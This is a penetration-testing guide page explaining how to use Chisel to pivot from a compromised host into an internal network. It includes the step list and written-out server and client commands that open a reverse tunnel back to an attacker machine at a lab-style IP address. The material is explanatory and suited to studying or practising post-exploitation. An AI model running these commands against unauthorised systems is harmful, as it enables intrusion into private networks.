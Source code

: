 # Chisel
[Chisel](https://github.com/jpillora/chisel) is a great tool for pivoting and creating tunnels to internal networks and systems from a compromised target. It can be uploaded using [various data infiltration techniques](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)

The practice of tunneling is very abstract and somewhat of an advanced topic in Information Security/IT. If any of this is confusing I would highly recommend watching tutorial videos on the subject which outline the process visually before attempting it.
## Chisel Usage by Example
Youtube user IppSec has a [great tutorial](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md) on how to use Chisel as a tunnel to pvito to internal systems from a compromised system. We will descirbe the entire process with 3 hosts, Attacker, which is our Kali system, the Target which is the compromised host, and the Internal Target, which lies on an internal netework that only the compromised Target system has access to communicate with.

Below are the steps outlined in the tunnel process,
1. Compromise a system as any level shell
   1. This does not have to be a root user
   2. This requires a space to read/write on the host to perform data infiltration.
2. Upload Chisel to the target host.
    1. Use simple data infiltration techniques that I have [outlined here.](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md)
    2. Ensure the binary tranferred successfully by using `md5sum` or some other hashing mechanism.
3. Start the Chisel server on the Attacker machine.
4. Start the Chisel client on the compromised Target system and connect back to the Attacker system's server.

### Starting the Chisel Server (Step 3)
To start the Chisel server on the Attacker machine, we do,
```
root@attacker-machine:~# chisel server -p 8081 -reverse -v
```
### Chisel Client on Compromised Target (Step 4)
To connect back to the Attacker machine from the compromised Target system, we run (on the compromised Target system)
```
user@target-machine:~$ ./chisel client \
 (ATTACKER IP ADDRESS):(ATTACKER PORT) R:(ATTACKER NEW PORT):(INTERAL TARGET IP):(INTERNAL TARGET PORT)
```
For instance, since we have the server running on the attacker system (10.10.14.2) from step 3 - at port 8081, we do (from the compromised target system (10.10.10.94)),
```
user@target-machine:~$ ./chisel client 10.10.14.2:8081 R:8082:172.19.0.3:80
```
This will route traffic to the internal Target system's port 80 via the compromised Target's reverse `R` connection to the Attacker host's Chisel server. Now, if all goes well, we can make a `curl` request from the Attacker machine to it's localhost on port 8082 and see the webpage located on the Internal Target Host, 172.19.0.3, via the compromised Target system, 10.10.10.94.
```
Attacker System->compromised Target System->Internal Private Network and Systems
```
